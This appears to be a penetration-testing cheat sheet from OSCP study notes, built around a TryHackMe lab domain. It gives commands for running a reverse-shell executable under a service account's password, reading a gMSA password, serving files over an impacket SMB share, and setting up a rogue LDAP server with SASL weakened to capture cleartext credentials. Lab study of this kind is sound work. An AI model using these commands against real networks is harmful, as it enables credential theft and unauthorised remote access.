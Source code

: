 
### Invoke-RunasCs.ps1
```bash
. .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command .\revshell443.exe
```

### GMSAPasswordReader
```bash
.\GMSAPasswordReader.exe --accountname svc_apache$
```

### smbserver
```bash
sudo smbserver.py -smb2support share $(pwd)
sudo smbserver.py -smb2support share $(pwd) -user kali -password kali
```

### Rogue LDAP Server
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

Make sure to press <No> when requested if you want to skip server configuration
![image](https://github.com/nuricheun/OSCP/assets/14031269/19d32655-1321-4ca1-b9eb-f9cf9a49f585)

For the DNS domain name, you want to provide our target domain, which is za.tryhackme.com
![image](https://github.com/nuricheun/OSCP/assets/14031269/c3cdb6b1-1ceb-49dd-8e44-65e732d35b64)

Use this same name for the Organisation name as well: 
![image](https://github.com/nuricheun/OSCP/assets/14031269/ef463b93-a993-40b6-8dd2-516f87bd4cfa)

Provide any Administrator password:
![image](https://github.com/nuricheun/OSCP/assets/14031269/85d54c2f-01de-45e6-bf4b-141b241d20eb)

Select MDB as the LDAP database to use:
![image](https://github.com/nuricheun/OSCP/assets/14031269/4a456705-471b-4551-97fb-bd619dbc5f6a)

For the last two options, ensure the database is not removed when purged:
![image](https://github.com/nuricheun/OSCP/assets/14031269/99675705-69a0-4ee5-96ec-b783a8e44b1a)

Move old database files before a new one is created:
![image](https://github.com/nuricheun/OSCP/assets/14031269/6eb3503c-f51d-415a-9c3d-c57785c767d8)

Create olcSaslSecProps.ldif
```bash
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
